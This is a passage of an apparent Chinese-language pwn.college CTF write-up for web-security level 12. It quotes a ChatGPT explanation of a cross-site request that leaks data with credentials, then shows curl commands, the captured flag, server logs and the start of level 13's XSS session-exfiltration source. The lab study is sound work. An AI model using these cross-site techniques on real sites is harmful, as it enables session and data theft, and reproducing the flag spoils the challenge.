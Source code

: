 > 解释是这样的：这段代码似乎是在 hacker.localhost:8080 上启动了一个 Flask 应用程序，它的主页返回了一个包含一个 JavaScript 代码块的 HTML 页面。该 JavaScript 代码块使用 XMLHttpRequest 对象向 challenge.localhost 的 /leak 路由发送了一个 POST 请求，并将 withCredentials 属性设置为 true，以便在跨域请求中发送身份验证信息。

> 这个 JavaScript 代码块可能会导致一些安全问题，例如：

> 它允许跨域请求，而没有对目标服务器进行足够的验证和授权。这可能导致攻击者利用该漏洞，向目标服务器发送恶意请求，例如修改数据、泄漏敏感信息等等。
以上是chatgpt的一些解答，反正我大受震撼
```
hacker@web-security-level-12:~$ curl 'http://challenge.localhost/visit?url=http://hacker.localhost:8080/'
Visited
hacker@web-security-level-12:~$ curl http://challenge.localhost/info?user=1
flag pwn.college{YOI6WPf6E5oX7qRb5fmdXaYAu3v.dhTOzMDL2QjMyMzW}
hacker@web-security-level-12:~$
```
得到答案。

这里最好看一下两个服务器的log，理解更深刻一些

```
hacker@web-security-level-12:~$ sh file.sh
 * Serving Flask app 'run'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://challenge.localhost:80
Press CTRL+C to quit
127.0.0.1 - - [05/Aug/2023 13:38:17] "GET /login HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:17] "GET /favicon.ico HTTP/1.1" 404 -
127.0.0.1 - - [05/Aug/2023 13:38:17] "POST /login HTTP/1.1" 302 -
127.0.0.1 - - [05/Aug/2023 13:38:17] "GET /login HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:18] "POST /leak HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:22] "GET /visit?url=http://hacker.localhost:8080/ HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:26] "GET /info?user=1 HTTP/1.1" 200 -
```
正好有时间戳，可以看一下发生了什么
```
hacker@web-security-level-12:~$ python test.py
 * Serving Flask app 'test'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://hacker.localhost:8080
Press CTRL+C to quit
127.0.0.1 - - [05/Aug/2023 13:38:18] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [05/Aug/2023 13:38:18] "GET /favicon.ico HTTP/1.1" 404 -
```

## level13 Exploit a cross site scripting vulnerability to exfilitrate user session data
看一下源代码，
```
def level13():
    app.config['SESSION_COOKIE_HTTPONLY'] = False

    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.path == "/login":
        if request.method == "POST":
            username = request.form.get("username")
            password = request.form.get("password")
            assert username, "Missing `username` form"
            assert password, "Missing `password` form"
```